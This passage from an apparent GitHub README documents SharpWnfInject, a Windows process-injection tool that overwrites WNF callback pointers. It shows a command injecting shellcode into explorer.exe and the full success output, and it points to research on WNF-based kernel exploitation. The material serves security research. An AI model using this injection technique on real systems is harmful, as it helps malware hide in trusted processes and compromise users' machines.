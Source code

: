 This tool overwrite callback function pointer in `WNF_USER_SUBSCRIPTION` for a specific WNF State Name.
The code injection technique does not work for all WNF State Name.
For example, this technique is known to be available for `WNF_SHEL_APPLICATION_STARTED` used by `explorer.exe` in Windows 10.
To test this technique, execute this tool as follows:

```
C:\dev>SharpWnfInject.exe -p 3928 -n WNF_SHEL_APPLICATION_STARTED -i payload.bin

[>] Trying to open the target process.
[+] Target process is opened successfully.
    |-> Process Name : explorer.exe
    |-> Process ID   : 3928
    |-> Architecture : x64
[>] Trying to get WNF_SUBSCRIPTION_TABLE.
[+] Got valid WNF_SUBSCRIPTION_TABLE.
    |-> Address : 0x0000000000AAB820
[>] Trying to get WNF_NAME_SUBSCRIPTION(s).
[+] Got 100 WNF_NAME_SUBSCRIPTION(s).
[>] Searching the WNF_NAME_SUBSCRIPTION for the specified WNF State Name.
[+] Got WNF_NAME_SUBSCRIPTION for the specified WNF State Name.
    |-> WNF State Name : 0x0D83063EA3BE0075 (WNF_SHEL_APPLICATION_STARTED)
    |-> Address        : 0x0000000004832800
[>] Trying to get WNF_USER_SUBSCRIPTION(s) for the target WNF_NAME_SUBSCRIPTION.
[+] Got 1 WNF_USER_SUBSCRIPTION(s).
[>] Trying to inject shellccode to the following WNF_USER_SUBSCRIPTION.
    |-> Address  : 0x00000000047D4480
    |-> Callback : 0x00007FFC4ED4EE90 (twinui.pcshell.dll)
    |-> Context  : 0x0000000007C461F0 (N/A)
[>] Trying to allocate shellcode buffer in remote process.
[+] Shellcode buffer is allocated successfully.
    |-> Shellcode buffer : 0x0000000002FB0000
[>] Trying to write shellcode to remote process.
[+] Shellcode are written successfully.
    |-> Shellcode Length : 344 byte(s)
[>] Trying to overwrite callback function pointer.
[+] Callback function pointer is overwritten successfully.
[+] WNF State Data is updated successfully.
[>] Trying to revert callback function pointer.
[+] Callback function pointer is reverted successfully.
[+] Code injection is completed successfully.
```

If you want to enable `SeDebugPrivilege`, set `-d` flag and execute with administrative privilege.


## KernelPrimitive

[Back to Top](#sharpwnfsuite)

Projects in this directory are to demonstrate WNF primitive for kernel exploitation.
You can read the detailed information in [Alex Plaskett](https://twitter.com/alexjplaskett)'s talk and blogs ([Part 1](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/), [Part 2](https://research.nccgroup.com/2021/08/17/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-2/), [Slide](https://research.nccgroup.com/2021/11/15/poc2021-pwning-the-windows-10-kernel-with-nfts-and-wnf-slides/)).
